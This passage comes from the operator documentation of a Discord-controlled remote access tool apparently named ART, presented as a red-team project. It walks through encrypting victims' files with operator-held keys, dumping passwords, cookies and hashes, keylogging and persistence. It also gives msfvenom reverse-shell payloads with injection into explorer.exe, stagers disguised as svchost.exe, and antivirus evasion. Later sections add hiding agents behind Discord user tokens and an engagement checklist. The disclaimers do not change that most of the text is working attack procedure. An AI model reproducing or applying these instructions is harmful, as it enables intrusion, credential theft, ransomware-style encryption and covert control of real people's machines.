| `!encrypt <path>` | AES-256-GCM encrypt every file under `<path>` recursively. Per-file keys derived via HKDF-SHA256. Files renamed to random UUIDs with `.art` extension. AES master key wrapped with operator RSA-4096 OAEP and sent as `wrapped.b64` |
| `!decrypt <path> <key_hex>` | Decrypt all `.art` files under `<path>` using the 64-char hex AES master key. Per-file keys re-derived on the fly. Original filenames restored from inside the ciphertext |
| `!files [path]` | List all `.art` encrypted files under a path with per-file sizes and a total |

**Complete encryption workflow:**

1. Encrypt target directory:
```
!encrypt C:\Users\gabri\Documents
```

2. Download `wrapped.b64` from Discord

3. Unwrap the AES key on operator machine:
```bat
.\build.bat unwrapkey wrapped.b64 op_private.pem  
```

4. Copy the 64-character hex key

5. Decrypt (if needed for recovery or demonstration):
```
!decrypt C:\Users\gabri\Documents <64-character-hex-key>
```

**Verify encryption:**
```
!files C:\Users\gabri\Documents
dir C:\Users\gabri\Documents\*.art
```

> Configure `OPERATOR_RSA_PUBLIC_KEY` before building — without it the AES key is sent as plain hex over Discord.

---

## 21. Channel Reference

| Channel | Category | Purpose |
|---|---|---|
| `#briefings` | C2 OPERATIONS | Agent check-in / online notifications |
| `#sitreps` | C2 OPERATIONS | Heartbeat messages |
| `#global-logs` | LOGS & AUDIT | All command activity from all agents |
| `#art-log` | LOGS & AUDIT | Autonomous assessment logs, report-generation flow, and rich artifacts |
| `#reports` | LOGS & AUDIT | Generated PTES reports from `!report`, `!abort`, and completed assessments |
| `#payloads` | CONTROL | File staging area for `!upload <filename>` retrievals |
| `#intel-feed` | CONTROL | File exfiltration and downloaded artifact copies |
| `#cmd-*` | VICTIMS | One channel per agent — send commands here |

---

## 22. Troubleshooting

| Problem | Solution |
|---|---|
| Agent connects but no channels created | Ensure bot has `Manage Channels` and `Manage Roles` permissions |
| `403 Forbidden / Missing Access` | Check bot role is above `@everyone` in role hierarchy |
| Privileged Intents error | Re-check all three intents are enabled in the developer portal |
| Only one agent online at a time | Each agent **must** use a unique bot token |
| Bot not responding to commands | Confirm `Message Content Intent` is ON |
| `[OFFLINE]` tag not clearing | Agent reconnected but offline monitor not running — check the process |
| EXE build crashes | Ensure `pyinstaller` is installed and rerun `.\\build.bat clean --bootstrap` to clear stale work files before rebuilding. |
| `!upload <filename>` says file not found | Upload the file to `#payloads` channel first, then run the command |
| `!report` or `!abort` fails to generate a report | Confirm `OPENAI_API_KEY` is valid and the system can reach the OpenAI API |
| Report command works but console warns about heartbeat delays | Check network latency to OpenAI and avoid long blocking shell commands in the victim channel |
| `!persist setup` fails or some methods report errors | Verify the agent EXE is running from a real file path (not a temp dir). `pywin32` must be installed in the Python environment for the Startup Shortcut method |
| `!dump hash` returns permission denied | Requires an elevated (admin) session. Verify privilege level with `!whoami` — look for `SeDebugPrivilege` enabled |
| `!dump password` or `!dump cookie` returns empty | The target browser may be actively running and holding its database locked. Try closing Chrome/Edge on the victim first, or the profile may simply have no saved data |
| `!keylog dump` returns empty | `!keylog start` must be run first. Confirm capture state with `!keylog status` |
| `!screenshot` fails or returns an error | Agent may be running in a non-interactive session (e.g., a service session with no desktop). Verify the agent is running under an interactive logged-on user with `!whoami` |
| `!encrypt` completes but no `wrapped.b64` attachment appears | `OPERATOR_RSA_PUBLIC_KEY` is blank — the AES key is sent as plain hex instead. Paste your RSA-4096 public key into the source before building |
| `!inject` returns no error but no MSF callback appears | AV/EDR is silently blocking `VirtualAllocEx` or `WriteProcessMemory`. Try a different target PID, or use `!stager` as a fallback |
| `!stager` drops the file but no MSF callback appears | AV quarantined the EXE after it landed on disk. Switch to the disk-less approach: `!inject` (shellcode) |
| Agent goes offline immediately after first check-in | Bot token is incorrect or has been revoked. Regenerate the token in the Developer Portal under **Bot → Reset Token** and rebuild |
| Two check-in messages appear for the same host | Two instances of the agent are running. The mutex blocks this normally — check if an old instance is still alive with `!ps`, then `!kill <pid>` |
| `!shell` command hangs and the victim channel stops responding | A blocking command (e.g., `ping -t`, interactive prompt) is holding the event loop. Kill it via another terminal session, or restart the agent |
| `!pharm add` succeeds but redirect does not work | The hosts file edit requires admin rights on Windows 10+. Check privilege level with `!whoami` |
| `!runas` returns access denied | Credentials provided are incorrect, or the target account lacks local rights. Verify with a known-good account first |

### Known Limitations

- Persistence support is Windows-focused. Registry, Startup Shortcut, and Scheduled Task workflows are not portable to non-Windows systems.
- The popup message command uses platform-specific behavior and is primarily intended for Windows targets.
- Autonomous mode and report generation depend on external OpenAI availability and latency.
- Default shell execution still uses `subprocess` with `shell=True`; long-running commands can delay responses even though report generation itself is now off the Discord event loop.

---

## 23. Security & Cleanup

- **Never** share or commit bot tokens to any repository
- **Never** deploy agents on systems without explicit written authorization
- Remove unused bots from your server and developer portal when no longer needed
- Regularly audit `#global-logs`, `#art-log`, and `#reports` for unauthorized activity
- Rotate bot tokens immediately if you suspect compromise
- This project is intended for **authorized red team labs and research only**

Operational artifacts to review and clean up as needed:

- `out.txt` — temporary attachment for oversized shell output
- `Report.md` — temporary report file before upload to `#reports`
- `agent_audit.log` — local audit trail if enabled in your workflow


---

## 24. Metasploit Framework Integration

ART delivers Metasploit payloads to a victim through three distinct mechanisms. The ART agent acts purely as a delivery vehicle — once the payload executes, Metasploit opens a standard Meterpreter session entirely independent of ART.

```
[MSF Operator Machine]                  [Victim Machine]
    msfvenom (generate payload)  ──────►  ART agent receives Discord cmd
    multi/handler (listen)       ◄──────  payload connects back
                                          │
                                          └── Meterpreter session established
```

> **Authorization reminder:** All exploitation must be against systems you own or have explicit written authorization to test.

---

### 24.0 Quick-Copy Reference

Replace `YOUR_IP` with your LHOST. All three approaches use the same listener `.rc` file.

**Step 1 — Generate the payload (run on your operator machine):**

```bash
# Approach 1 — raw shellcode, paste the base64 output directly into Discord
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 -f raw | base64 -w0

# Approach 2 — stager EXE  (for !stager)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 -f exe -o stage.exe

```

**Step 2 — Upload to `#payloads` (do this before anything else for Approach 2):**
Drag-and-drop `stage.exe` into the `#payloads` Discord channel.
No HTTP server needed — the agent fetches it straight from the Discord CDN:
```
!stager stage.exe
```

**Save the block below as `listener.rc`, replace `YOUR_IP`, then run it once — reuse for every session:**

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST YOUR_IP
set LPORT 443
set ExitOnSession false
exploit -j
```

```bash
msfconsole -q -r listener.rc
```

> `-j` keeps the handler running as a background job so it catches multiple sessions.
> Port 443 blends with HTTPS traffic and is less likely to be blocked by a firewall.

---

### 24.1 Prerequisites

**On your Metasploit operator machine (Linux recommended):**

```bash
# Install Metasploit Framework
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb | sudo bash

# Verify
msfconsole --version
msfvenom --version
```

Your `LHOST` must be reachable from the victim machine (correct external/VPN IP, port open in firewall).

#### Network Reachability — Common Scenarios

**Same LAN (home lab or local network):**
```bash
# Find your operator machine's local IP
ip a          # Linux
ipconfig      # Windows
# Use that IP as LHOST — e.g. 192.168.1.10
```

**Cloud VPS (publicly accessible server):**
```bash
# LHOST = VPS public IP
# Open LPORT in the firewall (example: UFW on Ubuntu)
sudo ufw allow 443/tcp
sudo ufw allow 80/tcp
```

**Home machine behind NAT (no direct public IP):**
```bash
# Option 1 — ngrok (free tier, TCP tunnel)
ngrok tcp 443
# ngrok will show an address like: tcp://0.tcp.ngrok.io:12345
# Use:  LHOST=0.tcp.ngrok.io  LPORT=12345  in msfvenom

# Option 2 — SSH reverse tunnel via a VPS
ssh -R 443:localhost:443 user@your-vps-ip
# LHOST = VPS public IP; MSF traffic tunnels back to your local machine
```

> **Port recommendation:** Port **443** (HTTPS) passes through the most firewalls. Port **80** is the next best option. Avoid high/non-standard ports in real engagements — they are more likely to be blocked.

---

### 24.2 Approach 1 — `!inject` (Shellcode Injection, Nothing on Disk)

**Best for:** Maximum stealth. Shellcode lives only in a target process's memory — nothing written to disk.

#### Step 1 — Start the MSF listener

Use the `listener.rc` file from [§24.0](#240-quick-copy-reference) — edit `YOUR_IP` then:

```bash
msfconsole -q -r listener.rc
```

#### Step 2 — Generate shellcode

**Linux — pipes directly to base64, paste the output into Discord:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 -f raw | base64 -w0
```

**Windows operator (PowerShell):**
```powershell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 -f raw -o shell.bin
[Convert]::ToBase64String([IO.File]::ReadAllBytes("shell.bin"))
```

Copy the entire output string — no spaces or line breaks.

#### Step 3 — Find a suitable target PID via ART

```
!ps
```
Choose a stable, long-running process (`explorer.exe`, `RuntimeBroker.exe`, `svchost.exe`).

#### Step 4 — Inject

```
!inject <pid> <base64_shellcode>
```

Example:
```
!inject 4812 TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAA...
```

#### Step 5 — Catch the session

```
msf6 > sessions -l
msf6 > sessions -i 1
meterpreter > getuid
```

#### Troubleshooting

| Symptom | Likely Cause | Fix |
|---|---|---|
| `OpenProcess failed` | Insufficient privileges | Pick a process owned by current user |
| `VirtualAllocEx failed` | Target process sandboxed | Try a different PID |
| No callback | Wrong LHOST/LPORT or firewall | Verify listener + network path |
| AV kills it | Shellcode detected | Use staged payload or obfuscation |

---

### 24.3 Approach 2 — `!stager` (Drop EXE + Execute)

**Best for:** Reliability. A full PE is dropped and executed — no injection needed.

#### Step 1 — Generate the stager EXE

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 -f exe -o stage.exe
```

#### Step 2 — Upload to `#payloads`

Drag-and-drop `stage.exe` into the `#payloads` Discord channel, then run in the victim channel:
```
!stager stage.exe
```

Custom drop path:
```
!stager stage.exe C:\Users\Public\svchost.exe
```

> **No HTTP server needed.** The agent fetches the file directly from the Discord CDN.
> Fallback — if the file is over 25 MB, host it instead: `!stager http://<your-ip>:8080/stage.exe`

#### Step 3 — Start the listener

```bash
msfconsole -q -r listener.rc
```

See [§24.0](#240-quick-copy-reference) for the `.rc` template.

#### Step 4 — Drop and execute via ART

Run the `!stager` command from Step 2.

#### Step 5 — Catch the session

```
msf6 > sessions -l
msf6 > sessions -i 1
```

#### Step 6 — Cleanup (optional)

```
!delete C:\Users\<user>\AppData\Local\Microsoft\Windows\WinDefend.exe
```

#### Troubleshooting

| Symptom | Likely Cause | Fix |
|---|---|---|
| `Download failed` | Victim can't reach your HTTP server | Verify IP/port, check firewall |
| EXE deleted immediately | AV/Defender | Use obfuscated payload or custom encoder |
| No callback | Wrong LHOST | Re-check listener config |

---

### 24.5 Comparison Table

| Feature | `!inject` | `!stager` |
|---|---|---|
| Written to disk | No | Yes |
| Delivery method | Paste b64 shellcode in Discord | Upload to `#payloads` (HTTP fallback) |
| Typical AV detection | High (raw shellcode) | Medium (PE on disk) |
| Requires target PID | Yes | No |
| Payload size limit | ~1 MB practical | None |
| Needs elevation | No (user process) | No |
| Cleanup needed | No (in-memory) | Delete EXE |

---

### 24.6 Full Example Walkthrough

**Scenario:** You have an ART agent running on a Windows 10 target and want a full Meterpreter shell using shellcode injection into `explorer.exe`.

**On your MSF machine:**

```bash
# 1. Generate raw shellcode and base64-encode it
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw | base64 -w0

# 2. Start listener
msfconsole -q -r listener.rc
```

**In Discord (via ART):**

```
!ps
```
→ Note that `explorer.exe` is PID `3240`.

Paste the base64 shellcode output from msfvenom:
```
!inject 3240 <base64_shellcode_here>
```
→ ART responds: `✅ Shellcode (510 bytes) injected into PID 3240.`

**Back in msfconsole:**

```
[*] Meterpreter session 1 opened (192.168.1.50:4444 -> 10.0.0.5:51234)
msf6 > sessions -i 1
meterpreter > getuid
Server username: DESKTOP-ABC123\victim
meterpreter > sysinfo
Computer: DESKTOP-ABC123
OS: Windows 10 (10.0 Build 19045)
meterpreter > hashdump
```

------

## 25. Improvement — One Bot, Many Agents (User Token Architecture)

The current architecture (one bot per agent) works well but requires registering a new Discord bot application for every target. The following describes a more scalable approach for future improvement.

### The Idea

Instead of each agent running as its own bot, agents connect to Discord as **regular users** using user tokens. A single C2 bot manages all channels, roles, and communications while agents authenticate as users.

```
Current:   Agent_1 (bot) + Agent_2 (bot) + Agent_3 (bot) → Discord Server
Improved:  Agent_1 (user) + Agent_2 (user) + Agent_3 (user) → Discord Server ← C2 Bot (controller)
```

### Benefits

| | Current (One Bot Per Agent) | Improved (User Token) |
|---|---|---|
| Bot registrations needed | One per agent | One total |
| Scalability | Limited by registration effort | Unlimited |
| Stealth | Agents appear as bots | Agents appear as normal users |
| Setup complexity | Medium | Low (after initial setup) |

### How to Implement It

#### 1. Keep the C2 Bot as the Controller
The existing `agent_template.py` continues to manage server structure, channels, and roles. No changes needed to the bot itself.

#### 2. Switch Agent Library
The standard `discord.py` does not support user tokens. Replace it with `discord.py-self`, a drop-in replacement:

```bash
# In your build venv
build_env\Scripts\python.exe -m pip uninstall discord.py -y
build_env\Scripts\python.exe -m pip install discord.py-self
```

#### 3. Create Discord User Accounts for Agents
- Create one Discord user account per agent (or per campaign)
- Log into each account and retrieve the user token:
  1. Open Discord in a browser
  2. Open DevTools (F12) → **Network** tab
  3. Send any message → find a request with an `Authorization` header
  4. Copy the token value

#### 4. Configure the Agent Script
Replace `BOT_TOKEN` with the user token — the rest of the code stays the same:

```python
BOT_TOKEN = "<DISCORD_USER_TOKEN_HERE>"
```

#### 5. Build and Deploy as Normal
```bash
.\\build.bat
```

### Important Warning

> Using user tokens for automation violates Discord's Terms of Service. User accounts running automated scripts risk permanent ban. **Only use this approach in isolated lab environments or with explicit authorization.** Never use real personal Discord accounts.

---

## 26. Comprehensive Guide: One Bot, Many Agents (User Token Architecture)

This section provides a step-by-step, production-grade guide to implementing a scalable Discord C2 architecture using user tokens (one bot, many agents). This approach allows you to control many agents with a single C2 bot, while each agent appears as a normal Discord user.

### ⚠️ Legal & Ethical Notice
> Automating Discord user accounts is against Discord's Terms of Service. Only use this method in authorized red team labs or research environments. Never use real personal Discord accounts.

See [DISCLAIMER.md](DISCLAIMER.md) for the repository-wide disclaimer and a plain-language interpretation of the Liberia Cybercrime Act, 2021.

### 1. Overview
- **C2 Bot**: A single Discord bot manages all channels, roles, and communications.
- **Agents**: Each agent runs as a Discord user (not a bot), using a user token for authentication.
- **Scalability**: No need to register a new bot for each agent. Unlimited agents per server.

### 2. Prerequisites
- A Discord server with proper structure (see above).
- Python 3.13+ and `pyinstaller` for building agents.
- The `discord.py-self` library for user-token agents.
- (Optional) Automation tools for creating Discord user accounts (see below).

### 3. Setting Up the C2 Bot (Controller)
- Use your existing `agent_template.py` as the C2 bot controller.
- The C2 bot manages all server structure, channels, and roles.
- No changes needed to the C2 bot for this architecture.

### 4. Creating Discord User Accounts for Agents
#### Manual Method
1. Go to [Discord Registration](https://discord.com/register).
2. Create a new user account for each agent (use unique emails, can use temporary email services for labs).
3. Complete email verification and set a username.
4. (Optional) Set a profile picture and nickname for easier tracking.

#### Automated Account Creation (Advanced/Lab Only)
- Use browser automation tools (e.g., Selenium, Puppeteer) to script account creation.
- Services like [mail.tm](https://mail.tm) or [temp-mail.org](https://temp-mail.org) can be used for temporary emails.
- **Note:** Automated account creation is rate-limited and may require CAPTCHA solving.

### 5. Retrieving User Tokens
1. Log in to the agent account in a browser.
2. Open DevTools (F12) → Network tab.
3. Send any message in Discord.
4. Find a request with an `Authorization` header.
5. Copy the token value (this is the user token for the agent).

### 6. Preparing the Agent Script
1. Uninstall `discord.py` and install `discord.py-self` in your build environment:
   ```bash
   build_env\Scripts\python.exe -m pip uninstall discord.py -y
   build_env\Scripts\python.exe -m pip install discord.py-self
   ```
2. In `agent_template.py`, replace the `BOT_TOKEN` value with the user token:
   ```python
   BOT_TOKEN = "<DISCORD_USER_TOKEN_HERE>"
   ```
3. (Optional) Adjust the script to use user-specific logic if needed (most bot logic works as-is with `discord.py-self`).

### 7. Adding Agents to the Server
- Log in to each agent account in a browser or via the script.
- Accept the server invite link (generated by the C2 bot or manually).
- Agents will appear as normal users in the server.

### 8. Building and Deploying Agents
1. Build the agent executable as usual:
   ```bash
   build.bat
   ```
2. Rename the EXE for each agent (e.g., `agent-alice.exe`).
3. Deploy and run on the target machine.

### 9. Operating the C2
- The C2 bot manages all channels and roles.
- Agents (users) join the server and communicate via their assigned channels.
- All commands and exfiltration work as with the bot-based model.

### 10. Automation Tips
- Use scripts to automate user account creation and token extraction for large-scale deployments.
- Maintain a secure log of user tokens and agent assignments.
- Regularly audit server membership and permissions.

### 11. Security & Cleanup
- Never use real/personal Discord accounts for agents.
- Remove unused user accounts and tokens after operations.
- Rotate tokens if compromise is suspected.

### 12. Troubleshooting
- If an agent cannot join the server, check invite validity and account status.
- If commands do not work, ensure `discord.py-self` is installed and the token is valid.
- Monitor for Discord bans or rate limits on automated accounts.

---

## 27. Production Deployment Checklist & Security Notes

### Pre-Deployment — Bot & Discord Setup

- [ ] New Discord application registered in the Developer Portal for this deployment
- [ ] Bot token generated and confirmed working (invite bot to server, confirm it appears in Members list)
- [ ] All three Privileged Gateway Intents enabled: **Presence Intent**, **Server Members Intent**, **Message Content Intent**
- [ ] Bot OAuth2 permissions correct: View Channels, Send Messages, Read Message History, Attach Files, Manage Channels, Manage Roles, Manage Webhooks, Embed Links, Mention Everyone, Add Reactions, Manage Threads
- [ ] Bot role is positioned **above** `@everyone` in the server role hierarchy

### Pre-Deployment — Agent Configuration

- [ ] `BOT_TOKEN` set in `agent_template.py` to the token for this specific target
- [ ] `OPENAI_API_KEY` set (required for `!report`, `!abort`, `!mode active`)
- [ ] RSA key pair generated with `.\\build.bat genkey` (run once per operator, not per deployment)
- [ ] `OPERATOR_RSA_PUBLIC_KEY` populated with the full PEM contents of `op_public.pem`
- [ ] `op_private.pem` stored **offline** and **not committed** to any repository
- [ ] No secrets are hardcoded and committed to version control

### Pre-Deployment — Build & Test

- [ ] Built with `.\\build.bat` inside a clean `build_env\` virtual environment
- [ ] `build\<name>.exe` exists with the correct icon
- [ ] Smoke test passed: `.\\build.bat --smoke-test` (size is 15–30 MB, `.sha256` generated)
- [ ] Local test run: agent checked in within 10 s, `cmd-*` channel appeared, `!whoami` responded, process killed cleanly
- [ ] EXE renamed to a convincing system-process name that matches the icon
- [ ] EXE placed in a directory path that matches its name
- [ ] AV exclusion in place (or AV absent) for the delivery path during authorized lab testing
- [ ] Deployment record written to `agent_logs\agent_deployment_log.xlsx`

### Pre-Deployment — MSF Integration (if applicable)

- [ ] `listener.rc` saved with correct `LHOST`
- [ ] `LHOST` verified reachable from the victim network (same LAN, VPS public IP, or ngrok/tunnel in place)
- [ ] `LPORT` open through any firewalls or NAT rules
- [ ] MSF listener started before deploying: `msfconsole -q -r listener.rc`
- [ ] Payload pre-generated (`stage.exe` or `meter.dll`) and uploaded to `#payloads`

### Post-Deployment — Verification

- [ ] Check-in message appeared in `#briefings`
- [ ] Victim channel `cmd-<hostname>-<id>` created under VICTIMS category
- [ ] `!sysinfo` returned expected system information
- [ ] `!whoami` confirms expected user context and privilege level
- [ ] `!screenshot` returned a screenshot of the desktop
- [ ] `!ps` returned a running process list (needed for `!inject`)
- [ ] Heartbeat visible in `#sitreps` within 5 minutes of deploy
- [ ] `!persist setup` confirmed — all 5 methods applied (if persistence is in scope)

### Operational Security Notes

| Risk | Mitigation |
|---|---|
| Bot token in git history | Add secrets to `.gitignore`; use `git-secrets` or pre-commit hooks to prevent accidental commits |
| `op_private.pem` leaked | Store on an air-gapped or encrypted volume; never commit to any repo |
| OpenAI API key exposed | Rotate immediately at [platform.openai.com](https://platform.openai.com) if leaked |
| Agent detected by AV at rest | Rebuild with a different icon/name; switch payload delivery to `!inject` |
| Agent loses Discord connection | Monitor `#sitreps` — silence for >10 min indicates the agent is dead or disconnected |
| Unauthorized command access | All commands are logged to `#global-logs` with timestamps — audit regularly |
| Stager EXE quarantined | Switch to the disk-less approaches: `!inject` (shellcode) |
| Discord rate-limit exhaustion | Each agent has its own token — rate limits are per-token, not shared across agents |
| Long-running shell command hangs the channel | Use `!shell taskkill /f /im <process>.exe` from another session, or restart the agent |

### End-of-Engagement Cleanup

- [ ] `!selfdestruct` run on every active agent — removes all persistence triggers, all EXE copies, wipes loot, then disconnects
- [ ] All victim `cmd-*` channels confirmed silent (no heartbeats for >10 min)
- [ ] Discord server deleted or archived
- [ ] All bot tokens revoked in the Discord Developer Portal (**Bot → Reset Token** marks old token invalid)
- [ ] All bot applications deleted from the Developer Portal
- [ ] `op_private.pem`, `op_public.pem`, any `wrapped.b64` files securely deleted or archived offline
- [ ] `build\` and `build_env\` deleted or archived
- [ ] `agent_logs\` securely archived or deleted per engagement policy
- [ ] Engagement summary documented

### Security Recommendations

- **Shell execution:** All commands run via `subprocess` with `shell=True`. Only trusted operators should have access to the Discord server.
- **Audit logging:** Every command and response is logged to `#global-logs`. Review regularly for unexpected activity.
- **Operator approval:** High-risk and noisy commands are flagged before execution. Keep the keyword lists in the agent source current.
- **Discord permissions:** Grant the bot only what it needs. Audit server roles after every new deployment.
- **Legal & ethical:** This project is for authorized red team labs and research only. See [DISCLAIMER.md](DISCLAIMER.md).

---

*For advanced automation scripts, user account management, or further guidance, contact your developer or red team lead.*

---
